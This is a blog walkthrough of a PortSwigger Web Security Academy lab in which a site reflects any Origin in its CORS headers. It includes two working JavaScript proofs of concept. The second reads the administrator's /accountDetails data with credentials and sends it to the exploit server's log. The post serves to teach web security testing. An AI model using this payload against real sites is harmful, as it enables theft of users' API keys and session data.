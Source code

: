 ```yaml
---
layout: post
title:  "CORS vulnerability with basic origin reflection"
date:   2024-10-16 11:20:54 +0530
categories: [BSCP, CORS]
---
```


## Introduction

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: **wiener:peter** 

## Solution

Looks like an ecommerce website which we faced in other labs as well 

![]({{ site.baseurl }}/assets/images/cors-1.png)

Through the lab objective, we have also have our own account where you can login using these credentials `wiener:peter` and once after login, we also have our own API key 

![]({{ site.baseurl }}/assets/images/cors-2.png)

Looking into the source, we found a javascript code snippet where it fetches the API key through an endpoint called `/accountDetails` with headers as `credentials: include` which means you should be logged in on any account where as cookie is sent along with the request and then dumps the information in a json format.. Then, it updates an element on the webpage with the ID `apikey` to display the `apikey` from the response data.

```js
fetch('/accountDetails', {credentials:'include'})
      .then(r => r.json())
      .then(j => document.getElementById('apikey').innerText = j.apikey)
```

Accessing the `/accountDetails` endpoint presented with some sensitive values like **sessions, email, APIkey and username** in a JSON format 

![]({{ site.baseurl }}/assets/images/cors-3.png)

In order to check whether the cross origin, we can intercept the request in burpsuite, send it to repeater, send the request and analysing the response shows that the `Access-Control-Allow-Credentials` set to true which means the credentials are allowed to sent along the request 

![]({{ site.baseurl }}/assets/images/cors-4.png)

Now In the request, pass along the header called `Origin:` with a value as `https://example.com` and sent the request.. In the response shows that `ACAO` set to our own example website which we passed via `Origin:` header 

![]({{ site.baseurl }}/assets/images/cors-5.png)

Now with a sample CORS, we can check whether we can dump the info from `/accountDetails` endpoint locally with the following POC

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://0acf00300445651880a44e0c002000f5.web-security-academy.net/accountDetails", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
 ```

Save this as HTML file locally and open in any browser, click on exploit and now you will be presented with the response information as a popup with the current loggedin user 

![]({{ site.baseurl }}/assets/images/cors-6.png)

Now again in order to solve the lab, we need to steal the administrator's API key 

**With the following POC,**

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a90007603b4470f808430ae0091001b.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

In the exploit server, with the above POC and click on deliver to victim.. Checking the access log we can see the admin credentials

![]({{ site.baseurl }}/assets/images/cors-7.png)

Take the admin API key and submit it as solution to solve the lab 

![]({{ site.baseurl }}/assets/images/cors-8.png)